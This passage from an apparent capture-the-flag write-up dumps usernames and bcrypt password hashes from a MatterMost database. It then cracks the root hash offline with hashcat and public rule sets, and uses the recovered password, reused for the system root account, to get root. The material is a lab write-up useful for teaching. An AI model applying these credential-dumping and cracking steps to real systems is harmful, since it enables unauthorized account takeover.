 MatterMost user accounts are stored in the `Users` table and hashed with bcrypt. We'll save the hashes then try to crack them offline.

```
MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| snowscan                         | $2a$10$spHk8ZGr54VWf4kNER/IReO.I63YH9d7WaYp9wjiRswDMR.P/Q9aa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.002 sec)
```

## Cracking with rules

There was a hint earlier that some variation of `PleaseSubscribe!` is used.

I'll use hashcat for this and since I don't know the hash ID for bcrypt by heart I can find it in the help.

```
C:\bin\hashcat>hashcat --help | findstr bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
```

My go-to rules is normally one of those two ruleset:

- [https://github.com/NSAKEY/nsa-rules/blob/master/_NSAKEY.v2.dive.rule](https://github.com/NSAKEY/nsa-rules/blob/master/_NSAKEY.v2.dive.rule)
- [https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)

These will perform all sort of transformations on the wordlist and we can quickly crack the password: `PleaseSubscribe!21`

```
C:\bin\hashcat>hashcat -a 0 -m 3200 -w 3 -O -r rules\_NSAKEY.v2.dive.rule hash.txt wordlist.txt
[...]
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
[...]
```

The root password from MatterMost is the same as the local root password so we can just su to root and get the system flag.

![](/assets/images/htb-writeup-delivery/root.png)

